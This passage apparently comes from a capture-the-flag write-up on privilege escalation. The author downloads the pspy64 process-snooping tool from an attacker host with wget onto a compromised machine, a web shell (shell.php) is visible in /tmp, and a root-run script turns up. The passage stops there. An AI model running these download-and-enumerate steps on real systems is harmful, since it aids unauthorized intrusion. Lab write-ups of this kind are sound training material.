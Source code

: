 For now, I use the **pspy64** tool - unprivileged Linux process snooping - to automatically enumerate the system:

[ollie@hackerdog:~$ wget http://10.9.63.75:8000/pspy64 -O /tmp/pspy64
wget http://10.9.63.75:8000/pspy64 -O /tmp/pspy64
--2023-09-19 04:39:01-- http://10.9.63.75:8000/pspy64
Connecting to 10.9.63.75:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘/tmp/pspy64’

/tmp/pspy64 100%[===================>] 2.96M 1003KB/s in 3.0s

2023-09-19 04:39:05 (1003 KB/s) - ‘/tmp/pspy64’ saved [3104768/3104768]

ollie@hackerdog:~$ cd /tmp/ ; ls -l
cd /tmp/ ; ls -l
total 3040
-rw-rw-r-- 1 ollie ollie 3104768 Sep 19 04:35 pspy64
-rw-r--r-- 1 www-data www-data 5492 Sep 19 03:23 shell.php
ollie@hackerdog:/tmp$ chmod +x pspy64](https://www.notion.so/ollie-hackerdog-wget-http-10-9-63-75-8000-pspy64-O-tmp-pspy64-wget-http-10-9-63-75-8000-psp-e83f03e31f08437ca07c947be2e5876e?pvs=21)

After executing the exploit tool, I found out this process is executed by **root** within the **UID=0**:

```
ollie@hackerdog:/tmp$ ./pspy64
./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/09/19 04:39:54 CMD: UID=0     PID=2169   | /lib/systemd/systemd-udevd
2023/09/19 04:39:54 CMD: UID=1000  PID=2159   | ./pspy64
2023/09/19 04:39:54 CMD: UID=0     PID=2069   |
2023/09/19 04:39:54 CMD: UID=0     PID=2068   |
2023/09/19 04:39:54 CMD: UID=1000  PID=2007   | bash
2023/09/19 04:39:54 CMD: UID=1000  PID=2001   | (sd-pam)
2023/09/19 04:39:54 CMD: UID=1000  PID=1995   | /lib/systemd/systemd --user
[...]
2023/09/19 04:41:05 CMD: UID=0     PID=2202   | /lib/systemd/systemd-udevd
2023/09/19 04:41:05 CMD: UID=0     PID=2201   | /lib/systemd/systemd-udevd
2023/09/19 04:42:01 CMD: UID=0     PID=2203   | ps -e -o pid,ppid,state,command
2023/09/19 04:42:05 CMD: UID=0     PID=2205   | /lib/systemd/systemd-udevd
2023/09/19 04:42:05 CMD: UID=0     PID=2204   | /bin/bash [REDACTED]
2023/09/19 04:42:05 CMD: UID=0     PID=2208   | /lib/systemd/systemd-udevd
2023/09/19 04:42:05 CMD: UID=0     PID=2207   | /lib/systemd/systemd-udevd
[...]
```


[REDACTED]: Bourne-Again shell script, ASCII text executable